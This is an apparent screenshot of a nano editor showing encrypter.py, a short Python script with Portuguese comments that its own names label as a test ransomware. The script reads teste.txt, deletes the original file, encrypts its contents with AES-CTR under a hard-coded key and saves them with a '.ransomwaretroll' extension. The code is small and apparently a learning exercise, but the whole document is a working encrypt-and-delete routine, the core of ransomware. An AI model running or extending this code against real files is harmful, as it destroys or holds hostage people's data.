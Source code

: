   GNU nano 7.2                                                                  encrypter.py                                                                           
import os
import pyaes

# abrir o arquivo a ser criptografado

file_name = 'teste.txt'
file = open(file_name,'rb')
file_data = file.read()
file.close()

# remover o arquivo original

os.remove(file_name)

#  chave de encriptacao

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# criptografar o arquivo

crypto_data = aes.encrypt(file_data)

# salvar o arquivo criptografado

new_file = file_name + '.ransomwaretroll'
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

